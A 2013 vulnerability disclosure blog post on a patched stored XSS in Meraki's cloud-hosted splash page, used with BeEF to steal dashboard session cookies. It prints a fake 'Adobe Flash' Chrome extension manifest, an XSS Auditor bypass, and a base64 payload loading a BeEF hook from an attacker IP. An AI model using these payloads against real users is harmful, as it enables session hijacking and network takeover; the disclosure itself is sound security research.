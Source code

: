 ```yaml
---
title: "Subverting a cloud-based infrastructure with XSS and BeEF"
date: 2013-03-11T00:28:00.001-07:00
draft: false
type: posts
categories: 
- beef,exploit,ikki,meraki,xss
---
```

# Subverting a cloud-based infrastructure with XSS and BeEF

<br/>

<br/>
> Well, the world is changing. You can probably do a lot more direct damage with a XSS in a high-value site than with a local privilege escalation in sudo \[...\] - _lcamtuf@coredump.cx_

If you are intrigued by sophisticated exploits and advanced techniques, Cross-Site Scripting isn't probably the most appealing topic for you. Nevertheless, recent events demonstrated how this class of vulnerabilities has been used to compromise [applications](http://krebsonsecurity.com/2012/11/yahoo-email-stealing-exploit-fetches-700/) and even [entire servers](https://blogs.apache.org/infra/entry/apache_org_04_09_2010).

  

Today, we are going to present a possible attack scenario based on a real-life vulnerability that has been recently patched by the [Meraki](http://www.meraki.com/) team. Although the vulnerability itself isn't particularly interesting, it is revealing how a trivial XSS flaw can be abused to subvert an entire network infrastructure.  
  

#### Meraki

Meraki is the first cloud-managed network infrastructure company and it's now part of [Cisco Systems](http://www.cisco.com/web/about/ac49/ac0/ac1/ac259/meraki.html). The idea is pretty neat: all network devices and security appliances (wired and wireless) can be managed by a cutting-edge web interface hosted in the cloud, allowing Meraki networks to be completely set up and controlled through the Internet. Many [enterprises, universities and numerous other businesses](http://www.meraki.com/customers) are already using this technology.

  

![](https://meraki.cisco.com/blog/wp-content/uploads/2010/02/Meraki-Network-Simulator_image2.jpg)

  
As usual, new technologies introduce opportunities and risks. In such environments, even a simple Cross-Site Scripting or a Cross-Site Request Forgery vulnerability can affect the overall security of the managed networks.

  

### The vulnerability

During a product evaluation of a cloud managed Wireless Access Point, we noticed the possibility to personalize the portal splash page.  Users accessing your WiFi network can be redirected to a custom webpage (e.g. containing a disclaimer) before accessing Internet.

  

To further customize our splash page, we started including images and other HTML tags. With big surprise, we quickly discovered that just a basic HTML/JS validation was performed in that context. As a result, we were able to include things like:

  

[![](http://3.bp.blogspot.com/-ZB918q9VtyE/URx_p6YJhYI/AAAAAAAAC_A/lBgJ2NhCj6U/s1600/SplashScreenForm.png)](http://3.bp.blogspot.com/-ZB918q9VtyE/URx_p6YJhYI/AAAAAAAAC_A/lBgJ2NhCj6U/s1600/SplashScreenForm.png)

  

What was even more interesting is the fact that the splash page is also hosted in the cloud. Unlike traditional WiFi APs where the page is hosted on the device itself, Meraki appliances use cloud resources.  
  
https://n20**.meraki.com**/splash/?mac=XXXX&client\_ip=XXXX&client\_mac=XXXX&vap=0&a=XXXX&b=XXXX&auth\_version=5&key=ef1115d... **AUTH\_KEY**...d41c283&node\_ip=XXXX&acl\_ver=XXXX&continue\_url=http%3A%2F%2Fwww.google.com  
  

To protect that page from random visitors, a unique token is used for authentication. Assuming you provide the right token and other required parameters, that page is accessible to Internet users.  
  
Now, let's add to the mix that Meraki uses a limited number of domains for all customers (_e.g. n1-29.meraki.com_, etc.) and, more importantly, that the dashboard session token is scoped to \*_**.meraki.com**_. This factor turns the stored XSS affecting our own device's domain to a vulnerability that can be abused to retrieve the dashboard cookie of other users and networks.   
  

### Attack scenario

An attacker with access to a Meraki dashboard can craft a malicious JS payload to steal the dashboard session cookie and obtain access to other users' devices. In practice, this allows to completely take over Meraki's wired and wireless networks.  
  
[BeEF](http://beefproject.com/), the well-know Browser Exploitation Framework, has been used to simulate a realistic attack:  
  

1.  The attacker customizes the splash page of his/her WiFi AP with an arbitrary JS payload, which includes the BeEF hook 
2.  Connecting a device to the physical wireless network controlled by the attacker (e.g. a testing device), it is possible to retrieve the URL of the splash page including the unique token 
3.  Using social engineering, the attacker tricks the victim(s) into visiting the attacker-controlled splash page
4.  At this point, the victim browser is hooked in BeEF
5.  Using one of the available BeEF modules, the attacker can retrieve the _HttpOnly_ **dash\_auth** cookie and get access to the victim's Meraki dashboard 
6.  In the case of Meraki WiFi Access Point, a convenient map will display the position of the device. In the config tab, it is also possible to disclose the network's password. At this stage, the actual network can be fully controlled by the attacker  
      
    

[![](http://4.bp.blogspot.com/-3CYlaFPop9s/URyGHmFxiZI/AAAAAAAAC_U/tTba3bTaNxc/s1600/DisplayWifiPass.png)](http://4.bp.blogspot.com/-3CYlaFPop9s/URyGHmFxiZI/AAAAAAAAC_U/tTba3bTaNxc/s1600/DisplayWifiPass.png)  

  
A demonstration video of the attack is also available:  
  
  
  
For the interested readers, a few technical details are also shared:  

-   Cookie flags (e.g. _HttpOnly_) are the _ASLR/DEP_ of browser security. It is possible to bypass those mitigation techniques,  although it's getting more complex. Thanks to the progress of browser security and general awareness, stealing cookies marked as HttpOnly via JS payload isn't trivial anymore. [Cross Site Tracing](http://www.cgisecurity.com/whitehat-mirror/WH-WhitePaper_XST_ebook.pdf) and similar techniques are obsolete. Browser plugins have been also patched. Besides exploiting [specific servers or browsers](http://blog.nibblesec.org/2012/12/ui-redressing-mayhem-httponly-bypass_19.html) [bu](http://blog.nibblesec.org/2012/12/ui-redressing-mayhem-httponly-bypass_19.html)[gs](http://blog.nibblesec.org/2012/12/ui-redressing-mayhem-httponly-bypass_19.html), attackers can only rely on social engineering tricks. During our Proof-of-Concept, a fake Flash update has been used to install a malicious Chrome extension and get access to all cookies  
    
-   Chrome extensions run with different privileges than normal JavaScript code executed by the renderer. A Chrome extension can override default SOP restrictions and issue cross-domain requests reading the HTTP response, accessing other browser tabs, and also reading every cookie including those marked as HttpOnly. The manifest of the deliberately backdoored Chrome Extension is the following. The background.js file loads the BeEF hook.  
      
    
    {
    
      "name": "Adobe Flash Player Security Update",
    
      "manifest\_version": 2,
    
      "version": "11.5.502.149",
    
      "description": "Updates Adobe Flash Player with latest securty updates",
    
      "background": {
    
        "scripts": \["background.js"\]
    
      },
    
      "content\_security\_policy": "script-src 'self' 'unsafe-eval' https://174.136.111.122; object-src 'self'",
    
      "icons": { 
    
        "16": "icon16.png",
    
        "48": "icon48.png",
    
        "128": "icon128.png" 
    
      },
    
      "permissions": \[
    
    "tabs", 
    
    "http://\*/\*", 
    
    "https://\*/\*",
    
      "cookies"
    
      \]
    
    }
    
      
    Not to blame Google, but just FYI when the backdoored Chrome Extension was uploaded to Google Chrome Webstore, it was available straight after the upload. No checks were made by the application, for example to prevent the upload of an extension with very relaxed permissions, unsafe-eval CSP directive, and Name/Description fields containing an obviously fake content such as "Adobe Flash Update" 
    
-   Choosing Google Chrome as target browser required to bypass XSS Auditor, the integrated Anti-XSS filter. As discovered by [Mario Heiderich](https://bugs.webkit.org/show_bug.cgi?id=29278#c6), the data URI schema with _base64_ content can be leverage to bypass the filter. The following code snippet will trigger the classic _alert(1)_, even on the latest Google Chrome at the time of writing (version 24.0.1312.71)  
      
    
    [![](http://3.bp.blogspot.com/-LR1KV24GEWU/UTmhFhWm28I/AAAAAAAAC_8/sNMSgOFjT0A/s1600/ChromeAntiXSSbypass.png)](http://3.bp.blogspot.com/-LR1KV24GEWU/UTmhFhWm28I/AAAAAAAAC_8/sNMSgOFjT0A/s1600/ChromeAntiXSSbypass.png)
    
      
    
-   The final attack vector to inject the initial BeEF hook in Meraki's page is:  
      
    <iframe src="data:text/html;base64,PHNjcmlwdD5zPWRvY3VtZW50LmNyZ  
    WF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3MudHlwZT0ndGV4dC9qYXZhc2Nya  
    XB0JztzLnNyYz0naHR0cHM6Ly8xNzQuMTM2LjExMS4xMjIvaG9vay5qc  
    yc7ZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoJ2hlYWQnKVswX  
    S5hcHBlbmRDaGlsZChzKTs8L3NjcmlwdD4=">  
      
    And what is actually executed is:  
      
    <script> s=document.createElement('script'); s.type='text/javascript'; s.src='https://174.136.111.122/hook.js'; document.getElementsByTagName('head')\[0\].appendChild(s); </script>  
      
    Having a backdoored Chrome Extension running in your browser opens for many new attack vectors wich we din't covered in the PoC. For example, it is possible to inject the BeEF hook in every open tab (you can get the impact of this :-), or use the victim browser as an open proxy using BeEF's [Tunneling Proxy](https://github.com/beefproject/beef/wiki/Tunneling) component and many other attacks

  
This blog post is brought to you by [@\_ikki](https://twitter.com/_ikki) (NibbleSec) and [@antisnatchor](https://twitter.com/antisnatchor) (BeEF core dev team).  
Thanks to [Meraki](http://www.meraki.com/) for the prompt response and the great service.

#### [Source](http://blog.nibblesec.org/feeds/6223972751746083097/comments/default)

<br/>
---
